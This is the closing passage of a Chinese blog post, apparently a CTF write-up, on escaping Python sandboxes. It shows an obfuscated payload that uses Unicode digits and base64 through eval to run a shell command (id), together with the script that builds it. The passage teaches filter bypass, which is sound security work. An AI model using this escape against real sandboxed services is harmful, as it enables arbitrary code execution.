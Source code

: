 所以，终极版的 payload 如下：

```python
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

其中需要用到的字符：

```python
In [5]: set(re.findall('w+', CMD))
Out[5]:
{'X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg',
 '_a_aiamapaoarata_a_',
 'a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦',
 'aa',
 'b_i_n_a_s_c_i_i_',
 'dict',
 'eval',
 'len',
 'list',
 'vars'}

In [6]: set(re.findall('W', CMD))
Out[6]: {'(', ')', ':', '=', '[', ']'}
```

构造脚本：

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

怎一个吊字了得 ![Python 沙箱逃逸的通解探索之路](picture/9-1664366603.png)

## ☁️ 总结

OrangeKiller CTF 第 3 期 所需的知识点，其实都在这篇文章里了，我就不啰嗦了。

这篇写完之后顿觉神清气爽。现在 CTF 中的 Python 题还是比较简单的 —— Web 题似乎还是 PHP 的天下。什么时候 Python 也能像 PHP 这样被人探索出各种奇妙的利用呢？本文的姿势似乎尚未有前人探索，或许也算为 Python 的奇技淫巧共享出属于自己的一小份力量了 ![Python 沙箱逃逸的通解探索之路](picture/5-1664366604.png)